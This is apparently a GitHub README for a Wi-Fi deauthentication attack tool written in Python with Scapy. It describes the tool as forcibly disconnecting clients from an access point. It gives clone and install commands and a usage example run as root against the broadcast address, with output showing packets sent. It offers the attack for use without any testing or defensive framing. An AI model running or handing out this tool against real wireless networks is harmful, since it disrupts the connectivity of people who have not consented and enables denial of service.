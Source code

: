 # Wi-Fi-Deauthentication-Attack
It is an attack tool that sends Deauthentication Frame to client or clients connected to the network of an AP, disconnecting these client or clients and dropping them from the network.
## Requirements

Python 2.x<html><br></html>
Scapy Library

## [+] Install
```
git clone https://github.com/OctopusTR/Wi-Fi-Deauthentication-Attack-Tool
cd Wi-Fi-Deauthentication-Attack-Tool
pip install -r requirements.txt
```
## [+] Usage
```
┌──(root㉿octopus)-[~]
└─# python deauth.py ff:ff:ff:ff:ff:ff
WARNING: No route found for IPv6 destination :: (no default route?)
.................................................................................^C
Send 107 packets.
```

